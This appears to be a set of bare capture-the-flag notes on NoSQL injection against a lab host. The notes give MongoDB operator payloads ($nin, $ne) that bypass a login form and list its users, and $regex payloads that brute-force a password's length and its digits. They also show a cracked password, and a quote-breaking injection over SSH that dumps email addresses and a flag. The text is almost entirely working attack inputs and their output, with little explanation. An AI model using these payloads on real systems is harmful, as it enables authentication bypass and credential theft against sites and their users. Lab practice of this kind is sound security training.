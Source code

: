 


## Logging in as Other Users

```


user[$nin][]=admin&pass[$ne]=admin&remember=on

['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]




user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=admin&remember=on
['username'=>['$nin'=>['admin', 'pedro'] ], 'password'=>['$ne'=>'aweasdf']]

admin
john
pedro

```

## Longitud del password y adivinarlo

```

user=admin&pass[$regex]=^.{8}$&remember=on


user=john&pass[$regex]=^10......$&remember=on



user=john&pass[$regex]=^10584312$&remember=on
```


## Usuario que reusa su password

```
pedro
coolpass123


```

## Sintaxis injection

```
 ssh syntax@10.10.139.66
syntax@10.10.139.66's password: 
Please provide the username to receive their email:admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
Syntax@Injection.FTW
Connection to 10.10.139.66 closed.

```


